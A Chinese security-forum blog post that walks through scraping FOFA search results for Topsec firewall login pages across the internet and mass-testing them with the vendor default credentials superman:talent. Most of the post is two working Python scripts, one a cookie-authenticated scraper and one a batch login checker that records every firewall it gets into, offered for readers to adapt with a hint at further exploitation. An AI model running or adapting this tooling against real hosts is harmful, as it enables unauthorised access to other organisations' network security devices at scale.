 

# 教你如何快速拿下全网弱口令 - 先知社区

教你如何快速拿下全网弱口令

- - -

**前言：在一次测试中，偶遇了天融信的防火墙，弱口令测试未果，并且天融信的防火墙一般错误五次后会会锁定登录，所以也不能爆破弱口令，那么现实中这种系统还是很多的，本篇文章介绍一下利用fofa爬取全网相同系统服务器，然后批量检测默认用户名密码的脚本的编写，本篇就以天融信的防火墙弱口令为例。**

我们的思路是通过fofa搜索目标系统服务器独有特征，例如系统的一些独有页面，然后脚本爬取我们需要的链接收集起来，再利用脚本批量检测默认用户名密码即可。

（有了这个想法后百度了一下，已经有师傅写过fofa爬链接的脚本了，那就不造轮子了，拿来改一下吧，精简为主，代码也比较简单，师傅已经写的很好了，原文链接：[https://www.cnblogs.com/Cl0ud/p/12384457.html）](https://www.cnblogs.com/Cl0ud/p/12384457.html%EF%BC%89)

## 前期准备

一：登录会员fofa账号，不是fofa会员的话只能查看五页内容，想要爬取所有符合特征的链接，就需要会员了，普通会员就可以了，这个就需要自行解决啦！登录之后我们获取当前登录账户的cookie值以做后面爬取链接时使用。

[![](assets/1698897555-0714fd32292ca3a071faa631bdfe4889.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104307-82d40616-8213-1.png)

二：找到目标防火墙的特征url："/cgi/maincgi.cgi"，fofa搜索一些就可以找到相同的目标系统了,此时链接可以删除q参数，只要qbase64参数也是一样的，[https://fofa.so/result?qbase64=Ii9jZ2kvbWFpbmNnaS5jZ2ki，我们需要的是qbase64参数：Ii9jZ2kvbWFpbmNnaS5jZ2ki](https://fofa.so/result?qbase64=Ii9jZ2kvbWFpbmNnaS5jZ2ki%EF%BC%8C%E6%88%91%E4%BB%AC%E9%9C%80%E8%A6%81%E7%9A%84%E6%98%AFqbase64%E5%8F%82%E6%95%B0%EF%BC%9AIi9jZ2kvbWFpbmNnaS5jZ2ki)

[![](assets/1698897555-a52dd747cbc77c82181b838b7823dcb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104321-8b03a620-8213-1.png)

三：此时所有的链接都是天融信防火墙的后台登录页面了，可以看到有一个登录框，输入账号密码登录，我们输入默认的账号:密码→superman:talent，然后点击登录并抓包

[![](assets/1698897555-9fee655a13ec61588d830e2fa7f3a0a3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104332-91695a96-8213-1.png)

[![](assets/1698897555-fd0eff6bf8201b7a10d1c42eb51c7443.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104337-94af45b2-8213-1.png)

**前期工作已经准备好了，接下来就需要写脚本爬取需要测试的链接并且批量验证了，为了方便后期的更改，爬取和检测弱口令分成两个脚本。**

## 脚本部分（分为链接爬取和批量检测）

脚本所需环境为python2

### **fofa链接爬取脚本**

编码的问题真的很烦，各种报错，脚本输出都为英文，并且我们直接将需要用到的cookie，和qbase参数直接编辑到代码中，各位用的时候自行代码修改就可以了~

```plain
import requests
from lxml import etree
import re
import time

cookie = "1"
qbase64 = "Ii9jZ2kvbWFpbmNnaS5jZ2ki"
def spider():
    header = {
        "Connection": "keep-alive",
        "Cookie": "_fofapro_ars_session=" + cookie,
    }
    print("spider website is :https://fofa.so/result?qbase64=" + qbase64)
    html = requests.get(url="https://fofa.so/result?qbase64=" + qbase64, headers=header).text
    pagenum = re.findall('>(\d*)</a> <a class="next_page" rel="next"', html)
    print("have page: " + pagenum[0])
    stop_page = raw_input("please input stop page: \n")
    doc = open("url.txt", "a+")
    for i in range(1, int(pagenum[0])):
        print("Now write " + str(i) + " page")
        pageurl = requests.get('https://fofa.so/result?page=' + str(i) + '&qbase64=' + qbase64, headers=header)
        tree = etree.HTML(pageurl.text)
        urllist = tree.xpath('/html/body/div[@id="result"]/div[@class="main-result clearfix padTop90"]/div[@class="result-right-list"]/div[@class="result-right-list-view"]/div[@class="right-list-view-item clearfix"]/div[@class="fl box-sizing"]/div[@class="re-domain"]/a[@target="_blank"]/@href')
        for j in urllist:
            doc.write(j + "\n")
        if i == int(stop_page):
            break
        time.sleep(10)
    doc.close()
    print("OK,Spider is End .")

def main():
    spider()

if __name__ == '__main__':
    main()
```

在前期准备中我们已经获取了fofa登录用户的cookie，以及我们搜索的qbase64参数，修改上面代码中的cookie和qbase64的值，然后python 脚本名.py，输入要停止的页码后，等待运行结束，结束后同目录下的url.txt文件中就是所收集的目标系统url。运行截图如下。

[![](assets/1698897555-d788f330037710bf516a0a23a103dcff.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104347-9a57ba26-8213-1.png)

### **批量检测脚本**

```plain
import requests
import time
payload = {
    "username":"superman",
    "passwd":"talent",
    "loginSubmitIpt":''
}
'''proxy='127.0.0.1:1080'
proxies={
    'http':'http://' + proxy,
    'https':'https://' + proxy
}'''
header={'Connection': 'close'}
f = open("url.txt", "r")
r = open("url_x.txt","w")
lines = f.readlines()
i=0
x=0
for line in lines:
    try:
        response = requests.post(line+"/cgi/maincgi.cgi?Url=Index",data = payload,headers = header,timeout=5,verify=False)
    except:
        continue
    else:
        i=i+1
        print(str(i))
        if "maincgi.cgi?Url=Main" in (response.text.replace(u'\xa9', u'')):
            r.write(line + "\n")
            x=x+1
            print(str(i)+"is being detected")
            print("A vulnerability link has been detected" + str(x))
f.close()
r.close()
```

如果不用try的话，有一个报错，如下图，百度了一下，网上的方法都没有解决，经过测试，部分链接会报异常，部分链接是没问题的，所以我们这里用try来忽略这些异常的请求，如果有师傅有解决方法的话，欢迎提出建议哦~

[![](assets/1698897555-1481713fd94b43f480a612c246c26d36.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104418-ad137592-8213-1.png)

脚本运行后，会读取url.txt的链接进行逐条检测默认口令，并输出正在检测第几条，在检测到弱口令系统后会输出已经检测出的数量。

[![](assets/1698897555-f60bac4593f8e80ffa6065e1f9e954f6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104424-b0e0f334-8213-1.png)

检测出的弱口令系统链接也会输出出来，并且会将存在弱口令的系统链接保存在url\_x.txt中，如下图：

[![](assets/1698897555-9cdf67c31f8f4ef6570730bcb798f3c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104433-b5ecdc94-8213-1.png)

脚本在经历了亿小会儿的运行之后，结果也出来了，那么基本全网的天融信的默认口令系统也都在这里了，如下图：

[![](assets/1698897555-263991f29f914a602052c248e7812e96.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210311104439-b9a8bc2c-8213-1.png)

**思路呢就是这样的，批量爬取，批量检测，更多的利用方式我就不说啦，各位按照需求自行修改代码就可以啦，缺点还是有不少的，期待各位师傅们提出意见和建议~**
